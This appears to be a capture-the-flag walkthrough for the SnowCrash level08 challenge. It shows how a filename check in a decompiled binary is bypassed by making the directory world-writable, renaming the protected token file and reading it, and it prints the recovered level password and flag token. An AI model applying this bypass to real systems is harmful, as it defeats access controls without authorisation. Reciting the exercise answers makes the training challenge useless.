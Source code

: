 Here we have those files:

- level08 (binary)
- token (.txt)

After decompiling the binary, we can see the following instruction:

```c
if (strstr(dwArg08->ptr0004, "token") == null)
```

So I guess that we just need to change the name of the `token` file in order to read it.

To do so, we first need to get enhanced rights on the current working directory.

```bash
chmod 777 .
```

Then we can rename the `token` file:

```bash
mv token flag
```

And send it as an argument of the `level08` binary:

```bash
level08@SnowCrash:~$ ./level08 flag
quif5eloekouj29ke0vouxean
```

We now have the flag password.

```bash
level08@SnowCrash:~$ su flag08
Password: # Type 'quif5eloekouj29ke0vouxean'
Don t forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
